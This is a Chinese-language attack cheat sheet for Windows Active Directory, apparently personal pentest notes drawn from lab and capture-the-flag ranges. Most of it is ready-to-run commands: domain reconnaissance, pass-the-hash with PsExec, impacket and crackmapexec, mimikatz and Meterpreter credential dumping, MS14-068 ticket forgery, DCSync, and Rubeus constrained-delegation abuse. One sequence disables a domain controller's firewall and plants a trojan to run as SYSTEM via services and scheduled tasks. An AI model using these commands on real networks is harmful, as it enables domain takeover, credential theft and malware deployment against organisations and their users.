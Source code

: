[干货 | 域内敏感信息搜集](https://mp.weixin.qq.com/s/nFOAb__c162gMhve3MEh_Q)

## 信息收集

```shell
net time /domain # 判断当前主机是否在域内
net user /domain
获取域内用户的详细信息：
wmic useraccount get /all

net group "domain controllers" /domain # 查看域控 OWA$
ping OWA # 域控主机即可获得域控IP
# 查看所有域成员计算机列表
net group "domain computers" /domain
# 查看域管理员, 看到管理员后 meterpreter > ps , migrate xxx 偷令牌
Net group "domain admins" /domain
# 登陆本机的域管理员
net localgroup administrators /domain
# 查看域成员 假设域为god
net view /domain:god
# 当前计算机名
hostname
# 查看域控列表
beacon> net dclist

# 三种情况
##1. 存在域，但当前用户不是域用户，提示说明权限不够
##2. 存在域，并且当前用户是域用户
##3. 当前网络环境为工作组，不存在域
```


## 攻击 

```shell
# PSTools 使用哈希传递(PTH)攻击 https://mp.weixin.qq.com/s/6BYAeo-5I1XMejyC5ec1pw
PsExec.exe \\192.168.52.138 -u god\administrator -p hongrisec@2022 -s cmd #成功，拿下域控了。
# impact: pip install impacket, win下pyexec用对应的py文件 python psexec.py xxxxxxx
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.138 #成功，拿下域控了。
psexec -hashes :8c535a2d84c3b21059d667639bb89db5 god/administrator@192.168.52.141 #成功，拿下域控了。
# impact: 连接cmd
proxychains python3 wmiexec.py 'administrator:123qwe!ASD@192.168.93.20'
# smbclient 上传文件
proxychains smbclient //192.168.93.20/c$ -U administrator%password
smb > put mimikatz.exe # 上传文件

# msf meterpreter
meterpreter > getsystem
meterpreter > getuid
meterpreter > ps     # 非system时, 查看system权限进程，迁移
meterpreter > migrate 216
meterpreter > load kiwi  # 读取密码, 如果是64位的迁移到64位进程才能看明文
meterpreter > getsystem
meterpreter > creds_kerberos

# mimikatz
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log


win7共享给域控
copy c:\phpstudy\srn7final.exe \\192.168.52.138\c$
设置计划任务启动木马
schtasks /create /tn "test123456" /tr C:\srn7final.exe /sc once /st 14.25 /S 192.168.52.138 /RU System /u administrator /p "hongrisec@2021"
```
### ms14-068生成票据, 注入票据
[L1](https://mp.weixin.qq.com/s/tTuH3_YY_C0AuPSLfo8mTQ) [L2](https://www.freebuf.com/articles/web/340783.html)


整理信息

```ts
USER：douser
Domain：DEMO.COM
NTLM：bc23b0b4d5bf5ff42bc61fb62e13886e
SID：S-1-5-21-979886063-1111900045-1414766810-1107
PASSWORD：Dotest123
```
上传MS14-068

```shell
MS14-068.exe -u douser@DEMO.COM -p Dotest123 -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130
dir 
```

通过 mimikatz 导入TGT票据将写入，从而提升为域管理员
```bat
kerberos::purge
kerberos::ptc TGT_douser@DEMO.COM.ccache
exit

dir \\WIN-ENS2VR5TR3N\c$


:: 通过文件共享将马复制到域控中
:: 运行方式2 sc , 关闭域控防火墙 上马
:: cmd 下切换高级用户权限
net use \\192.168.138.138\ipc$ "dc123.com" /user:"administrator"
sc \\WIN-ENS2VR5TR3N create ProFirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start ProFirewall
sc \\WIN-ENS2VR5TR3N create Startup binpath= "C:\shell.exe"
sc \\WIN-ENS2VR5TR3N start Startup

:: 运行方式1 schtasks
(
echo netsh advfirewall set allprofiles state off
echo shell.exe
) >1.bat
copy 1.bat \\WIN-ENS2VR5TR3N\c$ /y
copy shell.exe \\WIN-ENS2VR5TR3N\c$ /y
:: 运行方式2 schtasks
schtasks /create /S WIN-ENS2VR5TR3N /TN "test" /TR c:/1.bat /SC MINUTE /ST 21:27 /ru system /f

:: 下一步 psexec
```

### shadow-credentials
[Link](https://zhuanlan.zhihu.com/p/581451146)

条件: 以下账户拥有 msDS-KeyCredentialLink 属性的写入权限：

* 域管理员账户
* Key Admins 组中的账户
* Enterprise Key Admins 组中的账户
* 对 Active Directory 中的对象具有 GenericAll 或 GenericWrite 权限的帐户
* 机器账户对自身的 msDS-KeyCredentialLink 属性拥有写入权限

### Dsync攻击 
[Dsync](http://www.malabis.site/2022/11/12/春秋云镜-Initial/#横向移动)

DCSync攻击前提 一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

* Administrators组内的用户
* Domain Admins组内的用户
* Enterprise Admins组内的用户
* 域控制器的计算机帐户
* 即：默认情况下域管理员组具有该权限。
```sh
meterpreter > load kiwi
meterpreter > kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
# 拿到hash后 通过哈希传递 拿到域控
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"

```
### DC Takeover
[Ichunqiu云境 —— Tsclient Writeup](https://mp.weixin.qq.com/s/1VDwjl_fhpZOKUy5-ZHCTQ)

### 约束委派攻击
[1](https://mp.weixin.qq.com/s/O2LC0Qk55AAOqLGTJmzISg)
[2](https://zhuanlan.zhihu.com/p/581577873)

```bash
meterpreter > load kiwi
meterpreter > creds_all
```
约束委派攻击
* 1. 通过Rubeus申请机器账户MSSQLSERVER的TGT

```bash
Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:<NTLM> /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```
* 2. 然后使用 S4U2Self 扩展代表域管理员 Administrator 请求针对域控 LDAP 服务的票据，并将得到的票据传递到内存中
```bash
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:LDAP/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjC....==
```
* 3. LDAP 服务具有DCSync权限，导出域内用户的Hash
```bash
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /user:Administrator" exit
    kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /user:Administrator" exit
# 获得域管理员哈希 1a19251fbd935969832616366ae3fe62
```
* 4. WMI横向 登录域控
```
python wmiexec.py -hashes 00000000000000000000000000000000:1a19251fbd935969832616366ae3fe62 Administrator@172.22.2.3
```

# Article

[域内定位个人PC的三种方式](https://mp.weixin.qq.com/s/uXTo2AbmvMeNesR8rAjImw)